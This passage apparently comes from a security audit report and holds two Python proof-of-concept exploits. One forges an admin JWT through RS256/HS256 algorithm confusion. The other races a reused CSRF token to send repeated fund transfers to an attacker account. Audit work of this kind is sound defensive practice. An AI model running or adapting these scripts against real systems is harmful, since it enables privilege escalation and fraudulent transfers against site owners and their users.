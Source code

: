 ```python
```

### POC-003: JWT Algorithm Confusion
```python
# Exploit VULN-010
import jwt

# Attacker obtains server's PUBLIC key (often publicly available)
public_key = """-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA...
-----END PUBLIC KEY-----"""

# Attacker creates malicious token using HS256 with public key as secret
malicious_payload = {
    'sub': 'admin',
    'roles': ['admin', 'superuser'],
    'exp': 9999999999
}

# Sign with HS256 using the public key as the secret
malicious_token = jwt.encode(
    malicious_payload,
    public_key,
    algorithm='HS256'
)

# Server configured for RS256 but accepts HS256 in algorithms list
# Server will verify with: jwt.decode(malicious_token, public_key, algorithms=['RS256'])
# If algorithms list includes HS256, the token will be accepted!
```

### POC-004: CSRF Token Race Condition
```python
# Exploit VULN-007
import asyncio
import aiohttp

async def exploit_csrf_race():
    """
    Exploit race condition in CSRF token validation
    """
    # Obtain valid CSRF token
    csrf_token = "valid_csrf_token_from_legitimate_request"

    async def make_request():
        async with aiohttp.ClientSession() as session:
            # Make CSRF-protected request
            await session.post(
                'https://target.com/transfer-funds',
                data={
                    'csrf_token': csrf_token,
                    'amount': 10000,
                    'to_account': 'attacker_account'
                }
            )

    # Send 10 concurrent requests with same token
    # Due to race condition, multiple may succeed before token marked as used
    await asyncio.gather(*[make_request() for _ in range(10)])

asyncio.run(exploit_csrf_race())
```

---